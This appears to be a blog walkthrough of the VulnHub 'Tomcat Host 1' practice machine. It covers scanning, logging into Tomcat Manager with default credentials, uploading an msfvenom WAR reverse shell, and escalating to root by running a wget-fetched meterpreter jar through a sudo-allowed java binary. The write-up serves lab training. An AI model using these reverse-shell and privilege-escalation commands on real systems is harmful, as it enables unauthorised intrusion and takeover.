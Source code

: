 ```yaml
---
published: true
layout: post
title: Tomcat Host VulnHub
category: vulnhub
---
```

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<div class="language-plaintext highlighter-rouge"><pre class="highlight">netdiscover -i eth1</pre></div>

```javascript
/* My Code */
netdiscover -i eth1
```
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

	nmap -p- -A 192.168.56.110

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

	192.168.56.110:8080/manager/html

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

	msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

	nc -nvlp 4444

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

	id
	python -c 'import pty;pty.spawn("/bin/bash")'

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

	sudo -l
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

	msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

	service apache2 start

Go to the temp directory on the victims machine and transfer the payload over.

	cd /tmp
	wget http://192.168.56.101/fedai.jar

![wget](https://imgur.com/PmLq6W1.png)


### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

	msfconsole
	use exploit/multi/handler
	set payload java/meterpreter/reverse_tcp
	set lport 5555
	run

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

	sudo java -jar fedai.jar

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
